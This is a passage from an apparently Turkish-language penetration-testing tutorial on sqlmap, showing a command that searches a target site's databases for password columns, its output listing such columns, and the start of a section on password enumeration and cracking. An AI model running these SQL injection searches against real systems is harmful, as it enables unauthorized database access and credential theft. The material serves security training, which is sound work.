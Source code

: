 Yukarıdaki örnekte, bu arama sonuçlarına dayanarak birkaç ilginç veri alma hedefini hemen tespit edebiliriz. Belirli bir anahtar kelimeye (örn. pass) dayalı olarak tüm sütun adlarını aramayı da deneyebilirdik:

```shell-session
M1R4CKCK@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --search -C pass

...SNIP...
columns LIKE 'pass' were found in the following databases:
Database: owasp10
Table: accounts
[1 column]
+----------+------+
| Column   | Type |
+----------+------+
| password | text |
+----------+------+

Database: master
Table: users
[1 column]
+----------+--------------+
| Column   | Type         |
+----------+--------------+
| password | varchar(512) |
+----------+--------------+

Database: mysql
Table: user
[1 column]
+----------+----------+
| Column   | Type     |
+----------+----------+
| Password | char(41) |
+----------+----------+

Database: mysql
Table: servers
[1 column]
+----------+----------+
| Column   | Type     |
+----------+----------+
| Password | char(64) |
+----------+----------+
```


## Password Enumeration and Cracking

Parolaları içeren bir tablo belirledikten sonra (örn. master.users), daha önce gösterildiği gibi -T seçeneğiyle bu tabloyu alabiliriz:

